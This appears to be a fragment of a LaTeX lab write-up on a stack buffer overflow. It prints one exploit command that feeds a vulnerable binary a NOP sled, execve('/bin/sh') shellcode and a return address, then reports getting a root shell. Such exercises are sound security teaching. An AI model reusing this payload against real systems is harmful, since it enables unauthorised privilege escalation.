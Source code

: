 \documentclass{article}
\begin{document}
\begin{itemize}
\begin{enumerate}
    \begin{verbatim}
sudo ./vulnerable_file  `perl -e 'print "\x90"x220 .
    "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89
    \xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"  
    . "\x90\xf1\xff\xbf"'` 
\end{verbatim}
 \begin{center}
            \includegraphics[scale=0.6]{image/14-root.PNG}
        \end{center}
        Everything is done, we are now connect as root !
    \end{enumerate}
\end{itemize}



% 
% 
\end{document}
